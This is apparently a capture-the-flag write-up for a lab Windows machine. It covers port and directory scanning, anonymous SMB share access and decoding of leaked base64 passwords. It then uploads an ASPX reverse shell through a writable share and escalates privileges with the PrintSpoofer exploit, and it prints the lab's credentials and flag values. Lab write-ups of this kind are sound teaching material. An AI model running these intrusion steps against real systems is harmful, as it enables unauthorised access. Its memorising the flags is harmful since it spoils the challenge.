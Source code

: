 # Relevant

> Penetration Testing Challenge

<br>

### Process:

1. port scan:
	- scan all ports: `sudo nmap -T4 -p- 10.10.164.155`
	- scan found ports: `sudo nmap -T4 -A -p 80,135,139,445,3389,49663,49667,49670,49671 10.10.164.155`
2. enumerate port 80 and 49663
	- visit webpage (http://10.10.165.155) = default IIS homepage
	- visit webpage (http://10.10.165.155:49663) = default IIS homepage
	- run gobuster: `gobuster dir -u http://10.10.164.155 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- run gobuster `gobuster dir -u http://10.10.164.155:49663 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
3. enumerate SMB
	- `smbmap -H 10.10.165.155` = failed
	- `enum4linux -A 10.10.165.155` = failed
	- `sudo nmap -p 445 --script=smb-enum-users,smb-enum-shares 10.10.164.155` = found open share "nt4wrksv"
	- connect to share: `smbclient \\\\10.10.165.155\\nt4wrksv -N`
	- found "passwords.txt" file in share -> dowload
	- found user passwords encoded -> decode with base64 utility
		- `echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d` = *Bob - !P@\$\$W0rD!123* 
		- `echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d` = *Bill - Juw4nnaM4n420696969!\$\$\$*           
	- visit open share found via web ports (80 and 49663)         
		- success at "http://10.10.164.155:49663/nt4wrksv/passwords.txt"
	- try to upload file = success
	- upload ASP reverse shell:
		- get reverse shell (aspx) from [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)
		- setup handler in metasploit
		- upload shell via SMB connection to "/nt4wrksv" share
	- execute shell by navigating to: `http://10.10.164.155:49663/nt4wrksv/shell.aspx`
	- get user flag:
		- `cd /users/bob/desktop` -> `type user.txt`
		- flag = **THM{fdk4ka34vk346ksxfr21tg789ktf45}**
4. enumerate RDP 
	- use credentials found to login = failed
5. enumerate MS RPC 
	- ...
6. esclate privileges:
	- find system information: `systeminfo`
	- find out privileges: `whomai /priv`
	- found out you have the *SeImpersonatePrivilege* token assigned taht lets you run code as another user ([article](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)) so use the [PrintSpoofer](https://github.com/dievus/printspoofer) exploit 
		- clone the repo
		- upload it via SMB (same as reverse shell)
		- navigate to that directory: `cd /inetpub/wwwroot/nt4wrksv`
		- execute exploit: `PrintSpoofer.exe -i -c cmd`
		- check user: `whoami`
	- get root flag:
		- `cd /users/administrator/desktop` -> `type root.txt`
		- flag = **THM{1fk5kf469devly1gl320zafgl345pv}**

